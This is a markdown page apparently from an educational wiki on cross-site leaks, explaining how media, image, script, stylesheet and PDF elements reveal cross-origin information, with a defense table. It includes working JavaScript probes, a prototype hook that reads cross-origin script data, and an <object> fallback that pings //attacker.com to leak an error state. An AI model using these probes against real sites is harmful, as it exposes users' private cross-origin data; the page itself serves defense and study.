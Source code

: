 +++
title = "Element leaks"
description = ""
category = "Attack"
abuse = [
    "HTMLElement",
]
defenses = [
    "SameSite Cookies"
]
menu = "main"
weight = 2
+++

Some HTML Elements might be used to leak a portion of data to a cross-origin page.
For example, the below media resources can leak information about its size, duration, type. 

- [HTMLMediaElement](https://developer.mozilla.org/en-US/docs/Web/API/HTMLMediaElement) leaks the media `duration` and the `buffered` times.
- [HTMLVideoElement](https://developer.mozilla.org/en-US/docs/Web/API/HTMLVideoElement) leaks the `videoHeight` and `videoWidth` 
  some browsers may also have `webkitVideoDecodedByteCount`, `webkitAudioDecodedByteCount` and `webkitDecodedFrameCount`
- [getVideoPlaybackQuality()](https://developer.mozilla.org/en-US/docs/Web/API/VideoPlaybackQuality) leaks the `totalVideoFrames`.
- [HTMLImageElement](https://developer.mozilla.org/en-US/docs/Web/API/HTMLImageElement) leaks the `height` and `width` but if the image is invalid they will be 0 
  and [`image.decode()`](https://developer.mozilla.org/en-US/docs/Web/API/HTMLImageElement/decode) will get rejected.

It's possible to differentiate between media types via unique property for a given media type. For example, it is `videoWidth` for a `<video>`, or `duration` for an `<audio>`. The below snippet shows an example code that returns the type of a resource. 
```javascript
async function getType(url) {
    // Detect if resource is audio or video
    let media = document.createElement("video");
    media.src = url;
    await new Promise(r=>setTimeout(r,50));
    if (media.videoWidth) {
    return "video";
    } else if (media.duration) {
    return "audio"
    }
    // Detect if resource is an image
    let image = new Image();
    image.src = url;
    await new Promise(r=>setTimeout(r,50));
    if (image.width) return "image";
}
```

## Abusing CORB
[CORB]({{< ref "/docs/attacks/browser-features/corb.md" >}}) is a feature of Chrome that makes responses empty if the wrong content type is used.
This means that if the type is wrong it’s not cached.
An `ifCached` function can be found in [Cache Probing]({{< ref "/docs/attacks/cache-probing.md" >}}) article.
```javascript
async function isType(url, type = "script") {
  let error = false;
  // Purge url
  await ifCached(url, true);
  // Attempt to load resource
  let e = document.createElement(type);
  e.onerror = () => error = true;
  e.src = url;
  document.head.appendChild(e);
  // Wait for it to be cached if its allowed by CORB
  await new Promise(resolve => setTimeout(resolve, 500));
  // Cleanup
  document.head.removeChild(e);
  // Fix for "images" that get blocked differently.
  if (error) return false
  return ifCached(url);
}
```

## Abusing getComputedStyle
[getComputedStyle](https://developer.mozilla.org/en-US/docs/Web/API/Window/getComputedStyle) can be used to read an embedded to the current page CSS style sheets. Including those loaded from different origins. 
This function just checks if there has been a style applied to the body.
```javascript
async function isCSS(url) {
    let link = document.createElement('link');
    link.rel = 'stylesheet';
    link.type = 'text/css';
    link.href = url;
    let style1 = JSON.stringify(getComputedStyle(document.body));
    document.head.appendChild(link);
    await new Promise(resolve => setTimeout(resolve, 500));
    let style2 = JSON.stringify(getComputedStyle(document.body));
    document.head.removeChild(link);
    return (style1 !== style2);
}
```
## PDF
There are [Open URL Parameters](https://bugs.chromium.org/p/chromium/issues/detail?id=64309#c113) that allow some control over the content such as `zoom`, `view`, `page`, `toolbar`.  
For chrome, a PDF can be detected with [frame counting]({{< ref "/docs/attacks/frame-counting.md" >}}) because an `embed` is used internally.
```javascript
async function isPDF(url) {
    let w = open(url);
    await new Promise(resolve => setTimeout(resolve, 500));
    let result = (w.length === 1);
    w.close();
    return result;
}
```
{{< hint warning  >}} There will be false positives if the page has other embeds. {{< /hint >}}

## Script tag
Leaks the contents of a cross origin script during execution.  
The contents of a function can be leaked using `.toString()` and variables may also be assigned to the `window`.  
Even if the data is not accessible from the window it’s still possible to hook a function that it uses.  
```javascript
let hook = window.Array.prototype.push;
window.Array.prototype.push = function() {
    console.log(this);
    return hook.apply(this, arguments);
}
```

## When Javascript can’t be used
If JavaScript is disabled it's still possible to leak some information about cross-origin resources. For example, an `<object>` can be used to detect whether a resource responds with *Error Code*. What happens is that if a resource `//example.org/resource` returns an error in `<object data=//example.org/resource>fallback</object>` then `fallback` will be rendered [^fallback] [^leaky-images]. It's possible to inject another `<object>` inside that will leak the information to an outside server, or detect it with CSS [^xsleaks-nojs].
The below code embeds `//example.org/404` and if it responds with *Error* then a request to `//attacker.com/?error` is also made as a fallback.
```html
<object data="//example.com/404">
  <object data="//attacker.com/?error"></object>
</object>
```

## Defense

    | Attack Alternative | [SameSite Cookies (Lax)]({{< ref "/docs/defenses/opt-in/same-site-cookies.md" >}}) | [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) | [Framing Protections]({{< ref "/docs/defenses/opt-in/xfo.md" >}}) |                                          [Isolation Policies]({{< ref "/docs/defenses/isolation-policies" >}})                                           |
    | :----------------: | :--------------------------------------------------------------------------------: | :-------------------------------------------------: | :---------------------------------------------------------------: | :------------------------------------------------------------------------------------------------------------------------------------------------------: |
    |     Type leaks     |                                         ✔️                                         |                         ❌                          |                                ❌                                 | [RIP]({{< ref "/docs/defenses/isolation-policies/resource-isolation" >}}) 🔗 [NIP]({{< ref "/docs/defenses/isolation-policies/navigation-isolation" >}}) |
